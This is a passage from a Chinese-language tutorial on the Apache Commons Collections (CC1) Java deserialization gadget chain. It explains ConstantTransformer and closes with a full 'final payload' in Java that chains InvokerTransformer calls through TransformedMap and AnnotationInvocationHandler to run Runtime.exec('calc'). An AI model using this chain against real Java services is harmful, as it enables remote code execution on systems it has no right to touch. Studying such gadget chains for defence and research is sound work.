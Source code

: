但是现在还是不能执行代码，
我们最后要让这个setValue可控

<img width="1902" height="340" alt="image" src="https://github.com/user-attachments/assets/b086ce14-f0cb-45db-b489-596c0a1a78bc" />

但是现在这个setValue是
AnnotationTypeMismatchExceptionProxy

<img width="2205" height="1470" alt="image" src="https://github.com/user-attachments/assets/3d514ef5-54a4-4c49-b039-212076b5ee1d" />

现在需要利用到一个类，ConstantTransformer类，
在它里面的transform，可以返回ConstantTransformer构造时传入的值，
也就是说，我们在构造ConstantTransformer的时候传入Runtime.class

<img width="1992" height="1060" alt="image" src="https://github.com/user-attachments/assets/b5f9903e-1d34-4405-b29a-4bed61d81eab" />

<img width="1167" height="208" alt="image" src="https://github.com/user-attachments/assets/15fb100b-cd81-401c-8cf2-62fc93685e7c" />

最终PayLoad：

<img width="1852" height="771" alt="image" src="https://github.com/user-attachments/assets/f0fd5056-9a76-4109-a6fc-1f3306197a01" />


        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap();
        map.put("value", "test");
        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        Class aClass = forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandlerConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandlerConstructor.setAccessible(true);
        Object o = annotationInvocationHandlerConstructor.newInstance(Target.class, transformedMap);

        serialize(o);
        unserialize("ser.bin");

参考链接：

https://blog.csdn.net/qq_45305211/article/details/141720808

https://www.bilibili.com/video/BV1no4y1U7E1
